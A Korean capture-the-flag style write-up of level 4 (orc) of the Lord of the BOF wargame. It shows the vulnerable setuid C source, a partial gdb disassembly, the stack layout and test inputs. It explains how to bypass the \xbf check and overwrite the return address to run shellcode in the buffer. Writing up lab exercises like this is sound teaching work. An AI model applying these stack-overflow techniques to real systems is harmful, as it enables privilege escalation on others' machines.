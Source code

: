 ```yaml
---
title: LOB 4번 Write-up
date: 2017-9-9 9:35:00
categories: LOB
tags: LOB, goblin, orc, egghunter
---
```


## LOB 4번

    [goblin@localhost goblin]$ ls -l
    total 20
    -rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
    -rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
    [goblin@localhost goblin]$ cat orc.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - orc
            - egghunter
    */
    
    #include <stdio.h>
    #include <stdlib.h>
    
    extern char **environ;
    
    main(int argc, char *argv[])
    {
            char buffer[40];
            int i;
    
            if(argc < 2){
                    printf("argv error\n");
                    exit(0);
            }
    
            // egghunter
            for(i=0; environ[i]; i++)
                    memset(environ[i], 0, strlen(environ[i]));
    
            if(argv[1][47] != '\xbf')
            {
                    printf("stack is still your friend.\n");
                    exit(0);
            }
    
            strcpy(buffer, argv[1]);
            printf("%s\n", buffer);
    }

###  제약사항
첫줄에 있는 `extern char **environ`은 환경변수에 대한 리스트 포인터이다. 
이후에 `//egghunter`에서 for문을 돌리면서 NULL값이 나올 때까지 값을 모두 0으로 덮어씌운다. 따라서 환경변수를 사용할 수 없는 것이다.
EggHunter란 메모리에서 egg, 즉 특정한 값을 찾는 코드라고 생각하면 된다.

또한 `argv[1][47] != '\xbf'`이 부분에서 전달받은 인자값의 47번째 값이 47번문자가 \xbf가 아닐 경우 프로그램을 끊어 버리므로 덮어쓸때 \xbf로 입력해 주어야 한다.

    [goblin@localhost goblin]$ cp orc orc1
    [goblin@localhost goblin]$ ls
    orc  orc.c  orc1
    [goblin@localhost goblin]$ gdb orc1
    GNU gdb 19991004
    Copyright 1998 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i386-redhat-linux"...
    (gdb) disass main
    Dump of assembler code for function main:
    0x8048500 <main>:       push   %ebp
    0x8048501 <main+1>:     mov    %esp,%ebp
    0x8048503 <main+3>:     sub    $0x2c,%esp
    0x8048506 <main+6>:     cmpl   $0x1,0x8(%ebp)
    0x804850a <main+10>:    jg     0x8048523 <main+35>
    0x804850c <main+12>:    push   $0x8048630
    0x8048511 <main+17>:    call   0x8048410 <printf>
    0x8048516 <main+22>:    add    $0x4,%esp
    0x8048519 <main+25>:    push   $0x0
    0x804851b <main+27>:    call   0x8048420 <exit>
    0x8048520 <main+32>:    add    $0x4,%esp
    0x8048523 <main+35>:    nop
    0x8048524 <main+36>:    movl   $0x0,0xffffffd4(%ebp)
    0x804852b <main+43>:    nop
    0x804852c <main+44>:    lea    0x0(%esi,1),%esi
    0x8048530 <main+48>:    mov    0xffffffd4(%ebp),%eax
    0x8048533 <main+51>:    lea    0x0(,%eax,4),%edx
    0x804853a <main+58>:    mov    0x8049750,%eax
    0x804853f <main+63>:    cmpl   $0x0,(%eax,%edx,1)
    0x8048543 <main+67>:    jne    0x8048547 <main+71>
    0x8048545 <main+69>:    jmp    0x8048587 <main+135>
    0x8048547 <main+71>:    mov    0xffffffd4(%ebp),%eax

40바이트의 버퍼와 4바이트의 정수형 변수를 확보하므로 gdb에서 확인할 수 있듯이 0x2c, 즉 44바이트를 확보하고 있다.
따라서 메모리구조는 아래와 같다.

|buffer(40byte)|i(4byte)|SFP(4byte)|RET(4byte)|

    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90" * 50'`
    stack is still your friend.
    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*47 + "\xbf"'`
    ¿
    Segmentation fault

이처럼 `argv[1][47]`, 즉 48번째 값이 `\xbf`가 되어야만 Segmentation Fault가 나온다. 그런데 \xbf는 레드햇에서 스택의 시작 주소이다. 따라서 buffer에 쉘코드를 문자열로 넘겨준 후 RET값을 버퍼의 시작 주소로 바꿔주면 buffer에 있는 코드가 실행되는 것이다.

        printf("%p\n",buffer);

이 한줄의 코드는 buffer의 메모리 주소를 출력해주는 코드로, orc.c의 끝부분에 넣어주면 된다.

